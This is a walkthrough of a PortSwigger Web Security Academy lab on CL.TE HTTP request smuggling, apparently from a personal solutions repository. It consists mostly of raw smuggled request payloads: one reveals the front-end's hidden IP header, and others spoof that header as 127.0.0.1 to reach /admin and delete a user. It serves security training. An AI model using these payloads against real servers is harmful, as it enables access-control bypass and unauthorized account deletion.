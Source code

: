 
# Exploiting HTTP request smuggling to reveal front-end request rewriting

This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding.

There's an admin panel at /admin, but it's only accessible to people with the IP address 127.0.0.1. The front-end server adds an HTTP header to incoming requests containing their IP address. It's similar to the X-Forwarded-For header but has a different name.

To solve the lab, smuggle a request to the back-end server that reveals the header that is added by the front-end server. Then smuggle a request to the back-end server that includes the added header, accesses the admin panel, and deletes the user carlos.

Note: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel.

Tip: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store.


---------------------------------------------

References: 

- https://portswigger.net/web-security/request-smuggling/exploiting





![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/1.png)
![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/2.png)

---------------------------------------------

We search a random value:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/3.png)

It generates a POST request and the value is in the “search” parameter:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/4.png)


It is reflected inside a h1 element:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/5.png)


"Front-end server doesn't support chunked encoding" means this page suffers a CL.TE type of HTTP request smuggling. Knowing this and that the search function is a POST request to “/” using the parameter “search”, we can use this payload:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

search=
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/6.png)


We can see the headers clearly in the source code:



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/7.png)


We can increase the “Content-Length” value to see the whole request:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 700

search=
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/8.png)


```
X-XfXVAo-Ip: 2.139.0.137
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Cookie: session=h2uq8n5r3ooPksPjT3ScGmfAAD1IAltd
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/112.0
Accept: text/html,application/xhtml xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Transfer-Encoding: chunked
```

The most relevant header seems to be:

```
X-XfXVAo-Ip: 2.139.0.137
```

But the /admin page is still not accessible:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 163
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0ac500e8047b641f8198991e00ce0039.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-XfXVAo-Ip: 2.139.0.137

a
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/9.png)

It is necessary to use the discovered header with the ip address 127.0.0.1:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-XfXVAo-Ip: 127.0.0.1

a
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/10.png)

Finally, delete the user:

```
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 145
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
X-XfXVAo-Ip: 127.0.0.1

a
```



![img](images/Exploiting%20HTTP%20request%20smuggling%20to%20reveal%20front-end%20request%20rewriting/11.png)